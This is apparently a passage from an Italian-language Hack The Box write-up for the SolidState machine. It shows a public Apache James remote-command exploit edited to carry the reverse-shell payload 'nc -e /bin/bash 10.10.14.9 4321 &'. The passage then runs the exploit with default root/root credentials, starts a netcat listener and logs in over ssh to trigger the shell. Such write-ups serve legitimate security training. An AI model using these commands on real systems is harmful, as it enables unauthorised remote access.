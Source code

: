 Prima di tutto modifichiamo l'exploit con la inserendo la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# cat 35513.py

...<snip>...

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
payload = 'nc -e /bin/bash 10.10.14.9 4321 &'
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

...<snip>...

```

Ora lanciamo l'exploit 

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# python2 35513.py 10.10.10.51
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

Ci mettiamo in ascolto con nc sulla porta indicata nella shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 4321
listening on [any] 4321 ...

```

Non ci resta che loggarci tramite ssh con l'account mindy 

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
...<spin>...

```
